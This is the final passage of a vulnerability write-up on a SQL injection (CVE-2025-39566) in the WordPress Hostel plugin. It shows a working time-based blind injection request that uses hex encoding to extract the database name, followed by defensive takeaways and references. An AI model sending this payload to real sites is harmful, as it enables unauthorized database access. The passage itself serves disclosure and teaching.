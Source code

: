 Besides `ORD()` we can use **Hex encoding** to bypass:

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=past&ob=tB.status,(SELECT+IF(SUBSTRING(DATABASE(),1,1)=0x77,SLEEP(5),0))&dir=ASC HTTP/1.1
```

Bypass succeeds → database name can be extracted.

![Hex encoding bypass](ord_bypass.png "Bypass succeeds")

## Conclusion

The vulnerability **CVE-2025-39566** in the WordPress **Hostel** plugin (versions prior to **1.1.5.7**) stems from inserting user-supplied input directly into an SQL query without adequate safeguards, leading to SQL Injection.

**Key takeaways**:

* `sanitize_text_field()` ≠ protection against **SQL Injection**
* Distinguish clearly between input cleaning for HTML contexts and validation/sanitization for SQL contexts

## References

[SQL Injection Cheat Sheet – PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress Hostel Plugin <= 1.1.5.6 is vulnerable to SQL Injection - patchstack](https://patchstack.com/database/wordpress/plugin/hostel/vulnerability/wordpress-hostel-1-1-5-6-sql-injection-vulnerability?_s_id=cve)